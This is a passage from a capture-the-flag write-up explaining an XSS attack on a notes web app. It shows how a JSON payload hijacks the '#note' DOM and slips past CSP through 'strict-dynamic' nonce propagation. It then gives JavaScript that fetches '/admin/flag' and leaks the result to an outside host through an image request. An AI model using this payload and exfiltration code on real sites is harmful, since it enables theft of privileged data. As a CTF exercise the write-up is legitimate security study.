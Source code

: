 ```javascript
  }

  if (window.notes.length) {
    window.notes.forEach(createNote);
  } else {
    container.append("<p>You don't have any notes</p>");
  }
});
```

jQuery get html contents of `#note` DOM to render notes and convert them to jQuery object.  
This html contents can be easily hijacked by overwriting `#note` DOM.  
Payload in `window.notes` bypasses all CSP restriction because `strict-dynamic` is enabled to propagate nonce from root script `notes.js`.
Then XSS is triggered even with inline script:
```
{
  "title": {"test": "<div id=note><script>alert(1);//"},
  "content": "test"
}
```

![fig3.png](/assets/dsctf-2018-teaser/fig3.png)

note that `</script>` tag is treated as closing tag for `<script nonce="{nonce}">` which results in breaking `window.notes`.

Then, last step is just leaking flag.
```javascript
fetch(`/admin/flag`)
.then(res => {
		return res.text();
})
.then(text => {
		el = document.createElement('img')
		el.src = `http://[HOSTNAME]/?c=${text.split('alert-success">')[1].split("<")[0]}`;
		document.body.appendChild(el)
})
```
